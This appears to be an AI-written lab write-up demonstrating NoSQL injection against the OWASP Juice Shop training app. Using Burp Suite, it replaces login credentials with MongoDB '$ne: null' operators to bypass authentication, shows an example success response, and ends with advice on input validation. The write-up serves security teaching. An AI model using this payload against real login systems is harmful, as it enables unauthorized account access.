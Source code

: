 ### Lab 3 – NoSQL Injection (MongoDB REST API)

#### Objective
Demonstrate how improperly handled NoSQL queries can be exploited to bypass authentication via injection of special MongoDB operators.

#### Procedure
1. **Setup:**
   - Run the OWASP Juice Shop application, which uses Node.js and MongoDB backend.
2. **Capture login request using Burp Suite:**
   - Intercept a POST request to the login endpoint, e.g.:  
     ```
     POST /rest/user/login
     Content-Type: application/json
     
     { "email": "admin", "password": "123" }
     ```
3. **Send the intercepted request to Burp Repeater.**
4. **Modify the JSON payload to inject MongoDB query operators:**
   ```json
   {
     "email": { "$ne": null },
     "password": { "$ne": null }
   }
   ```
   Here, `$ne: null` means "not equal to null", which matches any value.
5. **Send the modified request.**

#### Code Result/Output
- The login response shows successful authentication despite wrong credentials, effectively bypassing login.
- Response example:
  ```json
  {
    "authentication": "successful",
    "user": { "email": "admin@juice-sh.op", ... }
  }
  ```
- This confirms the NoSQL injection vulnerability, where the query treats the injected `$ne` operators to bypass normal credential checks.

***

This lab demonstrates that NoSQL databases like MongoDB are vulnerable to injection attacks similar to SQL, requiring proper input validation and query parameterization to prevent injection of operators and unexpected query logic.

Let me know if a step-by-step script or further explanation is needed.
